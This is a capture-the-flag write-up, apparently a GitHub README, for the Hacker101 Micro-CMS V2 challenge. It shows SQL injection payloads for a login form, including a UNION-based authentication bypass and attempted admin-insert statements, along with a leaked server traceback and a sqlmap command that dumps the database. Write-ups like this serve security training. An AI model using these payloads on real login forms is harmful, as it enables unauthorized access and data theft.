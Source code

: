 # Micro-CMS V2 solution

## Flags:

### Login page

Typing admin as username on login page gave Unknown user error but then I used `' or 1='1` and that gave me invalid password error.

Then I tried `' or 1='1' UNION SELECT 1,2;` which caused an error and showing me the exact SQL query being run, the type of DB and programming language used by the server.

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Then I started trying to insert a new admin user using some of the commands below but I could not get it to work.

```sql
'; INSERT INTO admins (id, username, password) values (99, 'admin', 'admin');--
'; INSERT INTO admins (password) values ('admin');--
```

Then I gave up and googled the answer which suggested this:

```sql
' UNION SELECT "xyz" as password FROM admins where ''='';--
```

Which can be simplified to this:

```sql
' UNION SELECT "xyz" as password;
```

So you can login by using the above as the username and `xyz` as the password

### Unprotected edit pages

You can post data directly to the edit page without being authenticated and it will accept it. see force-post.py

### Get username and password via SQLi

Thanks to the hints online I used [sqlmap](https://github.com/sqlmapproject/sqlmap) to essential dump the whole DB using a single command.

```shell
python sqlmap-dev/sqlmap.py -u https://a3e1b004a2d9bad3eb9d5e0d76494caf.ctf.hacker101.com/login \
  --data "username=a&password=b" -p username --dump
```
